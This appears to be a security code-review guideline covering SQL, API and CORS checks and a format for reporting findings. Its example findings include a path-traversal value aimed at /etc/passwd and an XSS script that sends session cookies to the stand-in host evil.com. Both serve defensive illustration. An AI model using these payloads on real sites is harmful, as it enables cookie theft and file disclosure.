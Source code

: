 ### Database Interactions
- **Parameterised queries are safe** - do not flag properly parameterised SQL
- **Flag string concatenation** in SQL queries with user input
- **Consider ORM protection** - most modern ORMs prevent SQL injection by default

### API & Web Security
- **Check authentication middleware** - ensure proper authentication on protected routes
- **Validate input at boundaries** - API endpoints, form handlers, file uploads
- **Review CORS configuration** - overly permissive origins or methods

## COMMENT FORMAT REQUIREMENTS

When identifying security issues, provide:

1. **File and approximate line reference**
2. **Vulnerability category** (sql_injection, xss, auth_bypass, etc.)
3. **Severity level** (High/Medium/Low)
4. **Clear description** of the issue
5. **Exploit scenario** explaining how it could be abused
6. **Specific fix recommendation** with code examples where possible

### Example Format:
```
**Security Issue: Missing Authentication in Hapi Route**
- **Severity:** High  
- **Category:** auth_bypass
- **Issue:** Route `/admin/users` lacks authentication configuration, allowing unauthenticated access
- **Exploit Scenario:** Attacker could directly access admin endpoints without login to view/modify user data
- **Fix:** Add authentication: `{ method: 'GET', path: '/admin/users', config: { auth: 'session' }, handler: ... }`
```

```
**Security Issue: Template Injection in user_profile.njk**
- **Severity:** High  
- **Category:** template_injection
- **Issue:** User input from 'template_name' parameter is directly used in {% include %} statement
- **Exploit Scenario:** Attacker could submit template_name="../../../etc/passwd" or malicious template content to achieve file disclosure or RCE
- **Fix:** Use a whitelist of allowed templates: `{% include templates[template_name] %}` where templates is a predefined safe mapping
```

```  
**Security Issue: XSS in comment display**
- **Severity:** Medium
- **Category:** xss  
- **Issue:** User comment content rendered with `{{ comment | safe }}` filter without sanitisation
- **Exploit Scenario:** User posts comment containing `<script>document.location='http://evil.com/steal?cookie='+document.cookie</script>` to steal session cookies
- **Fix:** Remove `| safe` filter to use auto-escaping: `{{ comment }}`, or sanitise HTML input server-side before storage
```
